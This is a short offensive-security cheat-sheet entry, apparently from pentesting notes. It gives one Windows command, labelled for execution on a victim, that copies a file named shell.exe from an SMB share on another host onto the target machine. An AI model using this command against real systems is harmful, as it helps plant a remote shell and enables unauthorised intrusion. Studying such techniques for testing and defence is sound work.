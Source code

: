 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

# Related


Tags:

    
